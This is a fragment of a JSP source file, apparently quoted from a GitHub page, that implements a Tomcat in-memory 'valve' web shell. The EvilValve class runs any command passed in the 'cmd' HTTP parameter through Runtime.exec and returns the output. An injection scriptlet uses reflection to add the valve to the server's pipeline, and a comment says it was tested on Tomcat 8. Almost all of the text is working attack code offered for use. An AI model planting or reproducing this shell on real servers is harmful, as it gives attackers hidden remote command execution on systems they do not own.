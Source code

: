 >         }
>         @Override
>         public void backgroundProcess() {
> 
>         }
>         @Override
>         public void invoke(Request request, Response response) throws IOException, ServletException {
>             String cmd = request.getParameter("cmd");
>             if (cmd != null) {
>                 Process process = Runtime.getRuntime().exec(cmd);
>                 java.io.BufferedReader bufferedReader = new java.io.BufferedReader(
>                         new java.io.InputStreamReader(process.getInputStream())
>                 );
>                 StringBuilder stringBuilder = new StringBuilder();
>                 String line;
>                 while ((line = bufferedReader.readLine()) != null) {
>                     stringBuilder.append(line + '\n');
>                 }
>                 response.getOutputStream().write(stringBuilder.toString().getBytes());
>                 response.getOutputStream().flush();
>                 response.getOutputStream().close();
>                 getNext().invoke(request, response);
>             }else {
>                 getNext().invoke(request, response);
>             }
>         }
>         @Override
>         public boolean isAsyncSupported() {
>             return false;
>         }
>     }
> %>
> 
> <%
>     /**
>      * 已测试：tomcat8
>      */
>     try{
>         ServletContext servletContext = request.getSession().getServletContext();
>         Field appctx = servletContext.getClass().getDeclaredField("context");
>         appctx.setAccessible(true);
>         ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);
>         Field stdctx;
>         stdctx = applicationContext.getClass().getDeclaredField("context");
>         stdctx.setAccessible(true);
>         StandardContext standardContext;
>         standardContext = (StandardContext) stdctx.get(applicationContext);
>         Valve evilValve = new EvilValve();
>         standardContext.getPipeline().addValve(evilValve);
>         out.println("valve shell inject success");
>     } catch (NoSuchFieldException | IllegalAccessException e) {
>         e.printStackTrace();
>     }
> %>
> ```
